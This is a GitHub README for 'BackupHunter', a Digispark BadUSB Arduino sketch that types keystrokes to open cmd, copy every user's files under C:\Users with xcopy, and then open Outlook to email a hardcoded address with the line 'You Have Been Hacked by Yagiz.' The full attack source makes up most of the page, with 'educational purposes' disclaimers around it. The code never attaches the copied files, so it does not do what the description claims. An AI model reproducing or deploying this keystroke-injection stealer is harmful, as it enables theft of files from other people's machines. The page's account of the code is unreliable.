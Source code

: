 # BackupHunter

## Description

This script is an example of a malicious code that steals backup files from all users on a device and sends them to a specified email address. The script utilizes the `DigiKeyboard` library to simulate keyboard actions for executing commands on a Windows system. Please note that using or distributing such code for illegal purposes is strictly prohibited and unethical.

**Disclaimer: This script is for educational purposes only.**

## How It Works

1. **Stealing Backup Files:**
   - The script opens the Command Prompt (`cmd`) using a keypress sequence.
   - It uses the `xcopy` command to copy backup files from all users on the system to a folder (`C:\Backup\`).

2. **Sending the Files via Email:**
   - After copying the files, the script opens Microsoft Outlook and creates a new email.
   - The email is sent to a predefined static email address (in this case, `yagiz_aladag@hotmail.com`) with the subject "BackupFiles" and the message "You Have Been Hacked by Yagiz."

## Code Walkthrough

```cpp
#include "DigiKeyboard.h"

// Setup function: Initializes the keyboard actions
void setup() {
    DigiKeyboard.delay(500); 
    DigiKeyboard.sendKeyStroke(0); 
    DigiKeyboard.delay(500);

    // Open Command Prompt
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("cmd");
    DigiKeyboard.sendKeyStroke(KEY_CTRL_LEFT, MOD_SHIFT_LEFT); 
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(1000); 

    // Copy backup files
    DigiKeyboard.print("xcopy C:\\Users\\* C:\\Backup\\ /E /H /K /Y");
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(5000); 

    // Open Outlook and send email
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("outlook");
    DigiKeyboard.sendKeyStroke(KEY_ENTER); 
    DigiKeyboard.delay(3000); 
    DigiKeyboard.sendKeyStroke(KEY_N, MOD_CONTROL_LEFT); 
    DigiKeyboard.delay(1000); 
    DigiKeyboard.print("yagiz_aladag@hotmail.com");
    DigiKeyboard.sendKeyStroke(KEY_TAB); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("BackupFiles");
    DigiKeyboard.sendKeyStroke(KEY_TAB); 
    DigiKeyboard.delay(500);
    DigiKeyboard.print("You Have Been Hacked by Yagiz.");
    DigiKeyboard.sendKeyStroke(KEY_TAB); 
    DigiKeyboard.delay(500);
    DigiKeyboard.sendKeyStroke(KEY_ENTER); 
}

void loop() {
    // No loop needed for this task
}
Important Notes
Ethical Use: This code is not intended for use in real-world scenarios. It showcases how a malicious actor could exploit automated keystrokes to perform harmful actions. Use of this code without consent is illegal.
Security: Always ensure your devices are secure and take proper measures to prevent unauthorized access.
License
This project is for educational purposes only. It is important to comply with ethical standards and legal requirements when using or distributing code.

Warning
This code should never be used for malicious intent. Always ensure that your work aligns with ethical guidelines and legal standards. The script shown here is to demonstrate how vulnerabilities in system security can be exploited.

For more information, refer to DigiKeyboard Documentation.
